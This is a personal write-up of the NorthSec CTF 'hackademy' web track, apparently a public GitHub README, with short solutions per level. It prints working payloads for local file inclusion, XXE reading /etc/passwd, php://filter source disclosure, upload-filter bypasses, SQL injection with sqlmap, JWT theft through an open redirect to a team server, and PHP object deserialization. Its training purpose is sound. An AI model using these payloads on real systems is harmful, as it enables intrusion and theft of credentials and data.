 ## hackademy-writeup

Every year, I participate in the NorthSec CTF, and every year, when I come face to face with the hackademy track, my mind just goes blank.
This writeup is intended for personal use in the same track next year, but hey, I made the repo public if it can help anyone!

### Automatization 101
Check source code

### Automatization 102
Look at the robots.txt file

### Inclusion 101
Change the ```?page=welcome.php``` to ```/etc/passwd```

### Inclusion 102
This is an XXE, check the source code, then catch the request in burp, modify the body in the repeater for something like this:<br>
```<!DOCTYPE foo [ <!ELEMENT foo ANY ><!ENTITY ext SYSTEM "file:///etc/passwd" >]><function><getConversation>&ext;</getConversation></function>```

(thanks lolkatz)

### Inclusion 103
PHP convert to Base64... add ```php://filter/convert.base64-encode/resource=index.php``` after the ```?page=```<br>
Decode the string

### Upload 101
Create a basic PHP script like ```<?php echo 'Hello World'; ?>``` and name it script.jpg.php (security only checks the first .xxx)

### Upload 102
Upload the script created in Upload 101 and catch the request in Burp Repeater and change the ```Content-type``` to ```image/jpeg```

### Upload 103
This step checks the file signature, force the PNG file signature ```89 50 4E 47 0D 0A 1A 0A``` in the first bytes of the script created earlier

### Upload 104
Same as upload 101 but change the name of the script to script.png.php3

### SQL 101
Kinda hard for a 101 track, but use sqlmap with this command:```sqlmap u "URL HERE" --data "password=admin&username=admin" -p "password,username" --method POST --current-db --dump --technique=BEUSTQ```

### SQL 102
Directly in the username field, enter the injection: ```' union SELECT '','',''--```

### Open Redirect 101
My team owns a small server on the CTF network, so we redirect the user there ```URL.ctf/?sub_url=http://shell.ctf```<br>
Look at the logs on the server, we can see his JWT token.<br>
Go to ```URL.ctf/?identity=(insert JWT)``` (reminder; the token is only valid for 20mins)

### Serialize 101
Look at the source code and change the WelcomeMessage function by the function that outputs the base64 string, GiveMeFlagPrettyPlease()<br>
This is the final payload:<br>
```<?php
    class Hackademy{
        private $call = "GiveMeFlagPrettyPlease";
    }   
    $serialized = serialize(new Hackademy());

    // Output
    echo "Serialized:\n";
    echo $serialized;
    echo "\n";
    echo "Encoded:\n";
    echo base64_encode($serialized);
    echo "\n";
?>```

I then use the output in the URL parameter, and it gives me the flag :)

### Forgery 101

### Forgery 102

### Forgery 103


